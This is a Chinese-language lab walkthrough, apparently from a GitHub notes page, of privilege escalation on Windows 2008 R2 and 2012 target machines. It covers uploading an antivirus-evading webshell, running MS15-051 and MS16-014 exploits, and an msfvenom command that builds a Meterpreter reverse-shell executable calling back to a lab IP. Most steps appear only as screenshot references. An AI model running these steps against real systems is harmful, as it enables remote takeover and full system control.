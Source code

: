 # 2008系统提权



靶机系统为 Windows 2008 r2

直接上传 as免杀马

Base64编码链接

 

![img](系统提权/wps1.jpg) 

 

Systeminfo

查看系统信息

![img](系统提权/wps2.jpg) 

Whoami查看 权限为web

![img](系统提权/wps3.jpg) 

用as上传cve提权执行文件，cmd命令行dir查看

 

运行程序的时候，后面直接接命令，具体可以自己查看脚本文件

 

![img](系统提权/wps4.jpg) 

![img](系统提权/wps5.jpg) 

#ms15-051

![image-20210825170900844](系统提权/image-20210825170900844.png)





#MS16_014

kali打开终端，生成木马 .exe

msfvenom -p windosw/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=4444 -f exe -o sf.exe

![image-20210825203414138](系统提权/image-20210825203414138.png)

用蚁剑上传木马.exe

![image-20210825203501739](系统提权/image-20210825203501739.png)

![image-20210825210550936](系统提权/image-20210825210550936.png)

![](系统提权/image-20210825210754213.png)

查看设置 options

设置payload 

设置lhost  0.0.0.0   监听所有端口 

设置lport			

运行 攻击模块  exploit -j-z 

![image-20210825211122939](系统提权/image-20210825211122939.png)

蚁剑在上传木马的文件夹下运行终端   执行木马文件，收到会话

![image-20210825211909905](系统提权/image-20210825211909905.png)

bg  设置为背景，

![image-20210825212033837](系统提权/image-20210825212033837.png)

下面准备提权，search ms16_14

![image-20210825212223963](系统提权/image-20210825212223963.png)

use  0  按 id为0的设置

设置payload 与上面监听的payload的一致，查看配置options

![image-20210825212944844](系统提权/image-20210825212944844.png)

设置会话1  设置 lhost  ，设置 端口 区别于上面的监听端口 ，run  开始提权

![image-20210825213018841](系统提权/image-20210825213018841.png)

sessions 查看  使用会话2  getuid  ，已经提升权限为system





2012

![image-20210825221141064](系统提权/image-20210825221141064.png)

同上，蚁剑上传msf马，打开监听端口后，蚁剑运行msf马，反弹shell成功，

getuid

sysinfo

#MS16_075

![image-20210825222341524](系统提权/image-20210825222341524.png)

![image-20210825222406780](系统提权/image-20210825222406780.png)

![image-20210825222627810](系统提权/image-20210825222627810.png)

![image-20210825222650572](系统提权/image-20210825222650572.png)

#MS16_032

![image-20210825223512052](系统提权/image-20210825223512052.png)

